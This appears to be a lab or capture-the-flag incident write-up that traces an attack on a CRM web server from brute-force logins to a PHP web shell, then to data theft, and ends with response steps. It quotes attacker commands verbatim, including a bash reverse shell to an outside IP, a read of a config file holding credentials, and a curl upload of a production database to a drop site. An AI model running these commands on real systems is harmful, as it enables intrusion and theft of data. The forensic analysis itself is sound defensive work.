Task 5 – Portal Drop
🚨 EDR Alert: Suspicious File Write
Trigger: The EDR agent on TPMHQ-CRM01 flagged a suspicious file creation event in the web directory.
File: /var/www/html/CRM/portal/uploads/invoice.php
Process: php-fpm7.4 (Web Server)
Investigation Goal: Trace the attack vector from the initial web logs to the final data exfiltration command.
🚪 Phase 1: Access Analysis (Logs)
We started by analyzing the Apache access logs to verify how the attacker bypassed authentication.
Finding: A single IP address, 34.67.91.83, generated a high volume of traffic compared to other sources.

Finding: The attacker performed a brute-force attack.
- Failed Login Attempts (401): 35
- Successful Logins (200): 18

Finding: The attacker initially used PF-Scanner/1.0 for reconnaissance, then switched to python-requests/2.31.0 for the actual exploit.

🐚 Phase 2: Weaponization (Web Shell)
After gaining access, the attacker automated the upload of a malicious PHP file.
Finding: The logs show a POST request to /CRM/portal/upload.php.
- File:
invoice.php - Time:
14:27:34 - Tool:
python-requests/2.31.0

EDR Detection: "Suspicious File Write: Backdoor:PHP/Generic"
The EDR flagged this because the file was written by the www-data user, indicating the web server itself created the file (a classic web shell indicator).

IOC Details:
- File Path:
/var/www/html/CRM/portal/uploads/invoice.php - Process Image:
/usr/sbin/php-fpm7.4

⚡ Phase 3: Execution & Payloads
The attacker executed commands by passing Base64 encoded strings to the invoice.php web shell. We decoded these to understand their intent.
Encoded Payload: ZDJodllXMXA
Decoded: whoami
The attacker verified they had code execution on the server.

Encoded Payload: Ww1GemFDQXRh...
Decoded:
bash -i >& /dev/tcp/115.58.148.86/8080 0>&1
This command opened a reverse shell connection back to the attacker's listener on port 8080.

Technique Alignment: Server Software Component: Web Shell.
Adversaries use web shells to establish persistent access to web servers.

📤 Phase 4: Discovery & Exfiltration
With a stable shell, the attacker moved to their final objective: stealing data. The EDR process tree captured the exact commands.
Process Chain: bash -> cat
Command: cat /etc/trycrm/config.json
The attacker read the CRM configuration file, likely to find database credentials.

Process Chain: bash -> curl
Command:
curl -sS -T /var/lib/trycrm/prod.db [https://portaldrop2025.xyz/x7Ja0mlqP](https://portaldrop2025.xyz/x7Ja0mlqP)
Action: The attacker exfiltrated the production database (prod.db) to a remote drop site.

🛡️ Case Verdict
- Attacker IP: 34.67.91.83
- C2 IP: 115.58.148.86
- Data Lost: CRM Database & Configs
- Isolate
TPMHQ-CRM01immediately. - Revoke all database secrets found in
config.json. - Block
portaldrop2025.xyzat the firewall.